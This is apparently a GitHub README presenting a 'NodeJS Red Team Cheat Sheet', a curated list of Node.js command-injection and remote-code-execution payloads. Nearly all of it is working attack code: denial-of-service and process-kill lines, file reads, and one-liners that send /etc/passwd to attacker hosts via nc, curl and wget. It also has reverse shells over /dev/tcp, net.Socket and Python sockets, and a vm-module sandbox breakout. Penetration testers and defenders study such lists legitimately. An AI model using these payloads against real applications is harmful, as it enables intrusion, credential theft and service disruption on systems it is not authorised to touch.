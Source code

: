 # NodeJS Red Team Cheat Sheet

A curated list of NodeJs Command Injection / RCE Payloads.

### Know the evil functions
`eval()`,`setTimeout()`,`setInterval()`, `Function()`, `unserialize()`

### Know your weapons
`fs` , `child_process`, `net`, `http`

`spawn` = returns a stream, returns huge binary data to Node

`exec` = returns a buffer, should be used to return status

### Attack Vectors

Denial of Service
```javascript
while(1)
```
Exit the running process
```javascript
process.exit()
```

Kill Process
```javascript
process.kill(process.pid)
```

Read current working directory
```javascript
res.end(require('fs').readdirSync('.').toString())
```

Read previous directory
```javascript
res.end(require('fs').readdirSync('..').toString())
```

Read file
```javascript
res.end(require('fs').readFileSync(fname))
```
Spawn Magic ( by [@aaditya_purani](https://twitter.com/aaditya_purani))
```javascript
require('child_process').spawn('ls',['-a']).stdout.on('data', function (data) {console.log('own'+ data); });
```
Child exec ( by [@artsploit](https://twitter.com/artsploit) )
```javascript
require('child_process').exec('cat+/etc/passwd+|+nc+attackerip+80')
```

```javascript
require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/nc_host/nc_port+0>%261"')
```

```javascript
require('child_process').exec('curl+-F+"x=`cat+/etc/passwd`"+attackersip.com')
```
Wget post data (by [@brutelogic](https://twitter.com/brutelogic))
```javascript
require('child_process').exec('wget+--post-data+"x=$(cat+/etc/passwd)"+HOST')
```

Using net (by [ibreak.software](http://ibreak.software))
```javascript
var+net+=+require("net"),+sh+=+require("child_process").exec("/bin/bash");var+client+=+new+net.Socket();client.connect(80,+"attackerip",+function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

Using arguments[1] as response object (by [@OrhanAlbay](https://twitter.com/OrhanAlbay))
```javascript
arguments[1].end(require('child_process').execSync('whoami'))
```
```javascript
arguments[1].end(require('child_process').execSync('cat /etc/passwd'))
```

Bypass stream limits by compressing to gzip (by @aaditya_purani)
```javascript
const pwn=require('zlib').createGzip();const inx=require('fs').createReadStream('app.json');const oux = require('fs').createWriteStream('unrestrictive.gz');inx.pipe(pwn).pipe(oux)
```

Sandbox Bypass spawnSync (by [netspi](https://t.co/3D9kWREcUz))
```
var resp = spawnSync('python',
['-c',
'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("127.0.0.1",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
]
);
print(resp.stdout);
print(resp.stderr);
```

vm module breakout (by [pwnisher](https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html))

```
"use strict";
const vm = require("vm");
const xyz = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').execSync('cat /etc/passwd').toString()`);
console.log(xyz);
```

### Need More ?
Repository would be mainted time to time. Feel free to contribute.

### Contact
[@aaditya_purani](https://twitter.com/aaditya_purani)
